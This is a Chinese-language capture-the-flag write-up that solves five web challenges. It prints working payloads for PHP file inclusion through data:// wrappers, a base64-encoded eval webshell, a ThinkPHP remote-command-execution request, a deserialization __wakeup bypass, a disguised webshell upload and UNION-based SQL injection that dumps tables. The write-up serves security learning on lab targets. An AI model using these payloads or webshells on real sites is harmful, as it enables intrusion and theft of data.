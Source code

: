 # 1.Web_php_include

本题为php文件包含,打开后发现php://被过滤,所以想到用data伪协议

方法一

```
/?page=data://text/plain,<?php system(“ls”); ?>  # 爆出本目录文件

/?page=data://text/plain,<?php system(“cat fl4gisisish3r3.php”); ?>
# 获取flag
```

方法二

```
<?php eval($_POST[123]); ?> # 进行base64编码得到
PD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7ID8+

/?page=data://text/plain;base64, PD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7ID8+
```

```python
import base64
text = '<?php eval($_POST[123]); ?>'
text = base64.b64encode(text.encode())
print(text)
```

用蚁剑连接,密码manwhatcanisay,在目录中找到flag文件

# 2.php_rce

结合靶机内容可以知道是ThinkPHP的rce漏洞,到github找POC

```php
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

正常回显,说明具有远程命令执行漏洞,将id替换为**ls ../../../../**发现根目录下有flag,替换为cat ../../../../flag可得到flag

# 3.unserialize3

题目提示为反序列化,观察发现xctf类有一个成员变量flag属性为111,那么原始的序列化为:

O:4:”xctf”:1:{S:4:”flag”;S:3:”111”;}

构造的payload为:

O:4:”xctf”:2:{S:4:”flag”;S:3:”111”;} 传入属性多于对象属性个数绕过__wakeup()得到flag

# 4.upload1

题目提示是文件上传漏洞,那么就需要上传木马

方法一:禁用JS,上传一句话木马,用蚁剑连接找到flag文件

方法二:用BurpSuite抓包,发现JS过滤的代码,分析发现只允许png和jpg通过。将一句话木马改名为1.png，上传时抓包，将文件名字改为1.php，成功上传后用蚁剑连接一句话木马，找到flag

# 5.NewsCenter

打开靶机网页后发现有搜索框，试着注入1’ and 1=1#,发现有回显,说明有注入点

1’ order by 3#说明有三列  1’ union select 1,2,3# 2,3有回显

1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()# 爆表名

1’ union select 1,2,group_concat(column_name) from information_schema.columns where table_name = “secret_table”# 爆字段名

1’ union select group_concat(fl4g) from secret_table#  查询flag